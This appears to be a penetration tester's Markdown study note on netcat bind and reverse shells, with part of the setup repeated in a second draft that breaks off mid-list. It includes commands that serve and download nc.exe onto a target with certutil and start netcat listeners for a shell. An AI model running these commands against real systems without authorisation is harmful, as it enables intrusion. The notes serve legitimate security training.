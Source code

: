 #### Bind & reserve shells 

- Netcat is a networking utility used to read and write data to network connections using TCP or UDP
- Netcat is available for both NIX and Windows operating systems, consequently making it extremely useful for cross-platform engagements 
- netcat utilizes a client-server communication architecture with two modules: 
	- **Client mode** - Netcat can be used in client mode to connect to any TCP/UDP port as well as a netcat listener (server)
	- **Server mode** - Netcat can be used to listen for connections from clients on a specific port 
- Netcat can be used by penetration testers to perform the following functionality: 
	- Banner grabbing 
	- Port scanning 
	- Transferring Files 
	- Bind/reverse shells 
- netcat manual: `man nc `




##### Setting up the Listener
connect to port: `nc target_ip target_port `
- `-nv`: no dns resolution and verbose output 
- `-nvu`: connect to udp port instead of tcp

1 set up listener - two ways to do this: 
	Set up webserver and download the file from the target host's browser 
	-  `python -m SimpleHTTPServer 80 `
	-  open browser and visit the webserver url: `http://kali-ip:80 ``
	Set up webserver and download the file from the target command prompt 
	- navigate to directory where I want to save the file `cd`
	- `certutil -urlcache -f http://kali_ip/nc.exe nc.exe`

2 set up listener: `nc -nvlp 1234` 
3 connect to listener (in command prompt on target desktop): `nc.exe -nv kali-ip  port `

Als je via target system de listner wil start dan run je daar in de commandprompt `nc -nvlp kali_ip port` en run je in je kali terminal `nc -nv target-ip port `

--

1. Establishing a listener on the attacker's system.
2. Connecting to the listener from the target system.

Step 1: Setting up the Listener
There are two ways to set up a listener on the attacker's system. 

**Method 1:** Set up a Webserver to Download the File from the Target Host's Browser

- Open a terminal on your Kali Linux machine.
- Run the following command to start a simple webserver on port 80:
	- `python -m SimpleHTTPServer 80`
- Open a web browser on the target system and visit the following URL:
	- `http://kali-ip:80`
   

**Method 2**: Set up a Webserver to Download the File from the Target Command Prompt
-  Open a terminal on your Kali Linux machine.
	- Navigate to the directory that contains the file we want to upload to the target
		- `cd /path/to/save/location/`
		- set up a simple webserver 
    